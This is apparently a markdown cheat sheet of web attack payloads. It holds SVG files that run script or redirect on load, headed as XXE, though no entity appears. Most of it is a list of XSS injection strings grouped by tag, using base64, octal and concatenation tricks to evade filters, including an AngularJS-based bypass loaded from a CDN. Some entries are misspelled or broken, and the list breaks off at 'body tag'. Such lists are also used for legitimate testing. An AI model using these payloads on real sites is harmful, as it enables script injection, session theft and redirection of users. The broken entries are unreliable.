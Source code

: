 <span style="color:#21C587">&#35;</span><strong> XXE & XSS</strong><br>
```xml
<?xml version="1.1" standlone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <rect style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  <script type="text/javascript">
    alert("XXE & XSS");
  </script>
</svg>
```

<span style="color:#21C587">&#35;</span><strong> XXE & Open Redirect</strong><br>
```xml
<code>
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg onload="window.location='URL'" xmlns="http://www.w3.rog/200/svg">
    <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  </svg>
</code>
```

---
## XSS Payload<br>
<span style="color:#21C587">&#35;</span><strong> Reflection XSS statement</strong><br>

```html
script tag
<scrit>void''??globalThis?.alert?.(...[0b1_0_1_0_0_1_1_1_0_0_1,],)</script>
<script>alert(1)</scipt>
<script>onerror=alert;throw 1</script>
<script>{onerror=alert}throw 1</script>
<script src="data:;base64,YWxlcnQoMSk="></script>
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([1],alert)'></div>

img tag
<img src=x onerror=window.alert(1) >
<img src=x onerror=window['eva'+'l'](alert(1)) >
<img src=x onerror=_=alert,_(/xss/) >
<img src=x onerror=_='e'+'val',_(alert(1)) >

svg tag
<svg onload=&#97&#108&#101&#114&#116&#40&#49&#41>
<svg/onload=setTimeout('\141\154\145\162\164\50\61\51')>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<svg onx=() onload=window.alert?.()>
  
details tag
<details open ontoggle=top.alert(1)>
<details open ontoggle=top['prompt'](1)>
<details open ontoggle=eval('alert(1)') >
<details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
<details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  
iframe tag
<iframe onload=alert(1)>
<iframe onload=&#97&#108&#101&#114&#116&#40&#49&#41>
<iframe srcdoc="<img src=x:x onerror=alert(1)>" />
<iframe onload=location='javascri'.concat('pt:aler','t(1)')>
<iframe onload=location=['java','script:','alert(1)'].join("")>
<iframe src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMSk+"></iframe>

body tag
```
